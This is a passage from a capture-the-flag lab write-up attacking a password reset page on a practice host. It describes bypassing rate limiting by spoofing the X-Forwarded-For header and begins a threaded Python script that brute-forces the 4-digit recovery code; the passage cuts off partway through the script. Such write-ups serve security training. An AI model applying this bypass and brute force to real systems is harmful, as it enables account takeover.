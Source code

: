 #### fuff Output
<details><summary>Show</summary></details>

#### Discovered Log file
<details><summary>Show</summary></details>

#### Log File Content
<details><summary>Show</summary></details>

---

## Exploitation

### Flag 1: Gaining User Access

#### Password Reset Enumeration

- Used the valid email to trigger a reset at `/reset_password.php` ([See screenshot](#reset-password-form)).
- Reset page enforces 4-digit recovery code entry with 180 second timer ([See screenshot](#reset-password-form-timer)).
- Used BURP Suite to intercept a POST request to `/reset_password.php` and found rate limiting is being enforced ([See screenshot](#rate-limiting-response-header)).
- Continued POST requests until a ‘Rate limit exceeded’ message appeared ([See screenshot](#rate-limit-exceeded)).

#### Bypassing Rate Limiting

- Added `X-Forwarded-For` Request header with an IP address to reset the `Rate-Limit-Pending` counter ([See screenshot](#x-forwarded-for-header)).
- Changed the IP address to ensure the counter resets on each request ([See screenshot](#x-forwarded-for-header-with-another-ip)).

#### Brute-Forcing Recovery Code

Wrote Python script to brute-force recovery code.  
>Threading was used to accelerate the brute-force process due to a 180-second time constraint imposed by the server. By default, the script spawns 50 threads, allowing approximately 3,000 codes to be tested within the time window — a significant improvement over single-threaded execution. The thread count can be overridden via a command-line argument, though increasing it may lead to timeout errors depending on system/network conditions.

```python
#!/usr/bin/env python3

import sys
import threading
import requests

url = 'http://hammer.thm:1337/reset_password.php' 
email = "tester@hammer.thm"
stop_flag = threading.Event()
thread_count = 50
session = requests.Session()
invalid_code_message = "Invalid or expired recovery code!"

def send_password_reset_request():
    try:   
        response = session.post(url, data={"email": email})

        if response.status_code != 200:
            print(f"Request failed, status code: {response.status_code}")
            print("Response:")
            print(response.text)
            sys.exit()
```